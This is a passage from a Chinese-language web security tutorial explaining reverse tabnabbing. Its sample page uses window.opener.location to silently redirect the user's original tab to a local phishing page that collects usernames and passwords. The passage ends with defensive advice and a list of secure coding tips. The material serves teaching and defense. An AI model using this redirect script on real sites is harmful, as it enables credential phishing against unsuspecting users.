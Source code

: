 ```
        </section>
    </body>
</html>

```
2 接着，我们在cheat.php这个网站上面，将跳转过来的源网页地址悄悄的进行修改。效果如图5.2.1

```
<!DOCYTPE HTML>
<html>
    <head>
        <meta charset="utf-8" />
        <script src="https://ss0.bdstatic.com/5aV1bjqh_Q23odCf/static/superman/js/lib/jquery-1.10.2_d88366fd.js"></script>
    </head>
    <body>
        你想看的信息：
        xxxxxxxxxxxxxx
        xxxxxxxxxxxxxx
        <script>
            // 在用户不知情的情况下，对跳转的来源网页进行地址替换
            window.opener.location = 'http://localhost:8082/lab/fish/myfishsite.php';
        </script>
    </body>
</html>

```
于是，在用户访问了我们的欺骗网站后，之前的tab已经悄然发生了变化，我们将其悄悄的替换为了钓鱼的网站，欺骗用户输入用户名、密码等。

这种钓鱼方式比较有意思，重点在于我们比较难防住这种攻击，我们并不能将所有的页面链接都使用js打开。所以，要么就将外链跳转的连接改为当前页面跳转，要么就在页面unload的时候给用户加以提示，要么就将页面所有的跳转均改为window.open，在打开时，跟大多数钓鱼防治殊途同归的一点是，我们需要网民们的安全意识提高。

#### 我们平时开发要注意些什么？

1 开发时要提防用户产生的内容，要对用户输入的信息进行层层检测
2 要注意对用户的输出内容进行过滤(进行转义等)
3 重要的内容记得要加密传输(无论是利用https也好，自己加密也好)
4 get请求与post请求，要严格遵守规范，不要混用，不要将一些危险的提交使用jsonp完成。
5 对于URL上携带的信息，要谨慎使用。
6 心中时刻记着，自己的网站哪里可能有危险。

参考链接：https://segmentfault.com/a/1190000006672214#articleHeader2



